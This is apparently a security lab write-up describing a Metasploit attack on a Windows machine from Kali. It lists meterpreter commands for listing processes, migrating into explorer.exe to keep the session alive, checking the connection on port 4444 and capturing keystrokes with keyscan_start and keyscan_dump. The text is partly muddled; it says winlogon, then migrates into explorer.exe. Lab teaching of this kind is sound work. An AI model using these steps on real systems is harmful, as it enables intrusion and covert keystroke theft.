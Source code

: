 On kali give the command exploit



To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

#### Post Exploitation:
The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

<img width="772" height="574" alt="Screenshot 2025-09-29 094345" src="https://github.com/user-attachments/assets/604dea21-ec57-4dd6-8976-2d8917fb6a2d" />


keyscan_dump Shows the keystrokes captured so far



## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.

